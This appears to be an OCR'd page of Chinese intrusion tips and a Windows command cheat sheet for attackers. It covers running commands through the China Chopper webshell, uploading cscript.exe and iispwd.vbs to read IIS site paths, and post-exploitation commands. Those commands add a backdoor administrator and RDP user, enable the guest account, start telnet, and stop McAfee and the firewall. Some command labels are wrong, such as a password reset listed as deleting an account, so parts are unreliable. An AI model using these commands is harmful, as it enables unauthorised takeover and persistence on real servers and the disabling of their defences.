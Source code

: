 21.菜刀执行的技巧，上传cmd到可执行目录，右击cmd 虚拟终端，help 然后`setp c:\windows\temp\cmd.exe` 设置终端路径为：`c:\windows\temp\cmd.exe`

22.当不支持aspx，或是支持但跨不了目录的时候，可以上传一个读iis的vps，执行命令列出所有网站目录，找到主站的目录就可以跨过去了。
上传cscript.exe到可执行目录，接着上传iispwd.vbs到网站根目录，cmd命令/c 

`“c:\windows\temp\cookies\cscript.exe” d:\web\iispwd.vbs`

23.如何辨别服务器是不是内网？ 192.168.x.x    172.16.x.x    10.x.x.x

## dos命令大全 

查看版本：`ver`

查看权限：`whoami`

查看配置：`systeminfo`

查看用户：`net user`

查看进程：`tasklist`

查看正在运行的服务：`tasklist /svc`

查看开放的所有端口：`netstat -ano`

查询管理用户名：`query user`

查看搭建环境：`ftp 127.0.0.1`

查看指定服务的路径：`sc qc Mysql`

添加一个用户：`net user jianmei daxia.asd /add`

提升到管理权限：`net localgroup administrators jianmei /add`

添加用户并提升权限：`net user jianmei daxia.asd /add & net localgroup administrators jianmei /add`

查看制定用户信息：`net user jianmei`

查看所有管理权限的用户：`net localgroup administrators`

加入远程桌面用户组：`net localgroup “Remote Desktop Users” jianmei /add`

突破最大连接数：`mstsc /admin /v:127.0.0.1`

删除用户：`net user jianmei /del`

删除管理员账户:`net user administrator daxia.asd`

更改系统登陆密码：`net password daxia.asd`

激活GUEST用户：`net user guest /active:yes`

开启TELNET服务：`net start telnet`

关闭麦咖啡：`net stop “McAfee McShield”`

关闭防火墙：`net stop sharedaccess`

查看当前目录的所有文件：`dir c:\windows\`

查看制定文件的内容：`type c:\windows\1.asp`
